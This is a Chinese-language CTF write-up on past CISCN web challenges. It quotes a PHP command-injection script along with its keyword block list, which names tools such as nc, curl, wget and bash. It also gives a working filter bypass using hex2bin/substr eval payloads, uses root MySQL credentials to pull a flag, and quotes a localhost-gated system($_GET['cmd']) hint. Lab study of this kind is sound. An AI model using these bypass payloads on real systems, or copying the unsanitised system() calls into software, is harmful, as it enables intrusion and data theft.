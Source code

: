 # ciscn-Web往年题目

## simple_php



打开直接就是源码分析

```php
<?php
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}


show_source(__FILE__);
?>
```



那就直接看



这个就是POST一个cmd上去，然后有很多滤过，基本上常规的能想到的都滤过了



还有一个escapeshellcmd函数，这个函数会给除`@:-+=` 等符号前添加`\` ，能够一定程度上防shell

1. 直接 `%0a` 绕过

2. 使用hex2bin和substr



hex2bin就是转换十六进制字符串为二进制字符串

这样是可行的，然后可以使用



命令：

```
system('ls /');
```

然后bin2hex，后续过程省略

```
73797374656d28276c73202f27293b
```

然后不能直接放，因为它也过滤了单引号和双引号，所以使用substr来进行字符串化

```
cmd=php -r eval(hex2bin(substr(h73797374656d28276c73202f27293b,1)));
```

然后出来

![image-20241121201701536](../../_media/image-20241121201701536.png)



没发现`/flag`

然后发现开启了mysql服务，web题目的flag也有可能放在mysql里面，遂进去查看。

```
echo `mysql -u root -p'root' -e 'show databases;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d65202773686f77206461746162617365733b27603b
```



发现：

```
Database PHP_CMS information_schema mysql
```



然后查嘛

```
echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73686f77207461626c65733b27603b
```



发现表：

```
Tables_in_PHP_CMS F1ag_Se3Re7
```



然后继续查：

```
echo `mysql -u root -p'root' -e 'select * from PHP_CMS.F1ag_Se3Re7;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d65202773656c656374202a2066726f6d205048505f434d532e463161675f5365335265373b27603b
```



发现flag：

```
ctfshow{ce8a87cf-6fcc-48c9-bbe7-fcbe096acece} 
```





综上：学习和复习点

- mysql的用法

```
mysql -u root -p'root' -e '语句'
```

- echo的用法

```
echo `shell语句`;
```

- 简单的php利用

```
php -r php语句;
```

- hex2bin和substr综合利用





## easycms



上来就给一个提示了，不知道当时比赛的时候是不是直接给的，还是分时放的。

题目：

```
简单的cms，可以扫扫看？ 提示1： /flag.php： 

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
提示2：github找一下源码?
```





直奔第一个提示：

```
Warning: file_put_contents(2.txt): failed to open stream: Permission denied in /var/www/html/flag.php on line 2
Just input 'cmd' From 127.0.0.1
```



不好评价

然后给出源码提示：

```php
if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
```



反弹shell

没学到，pass
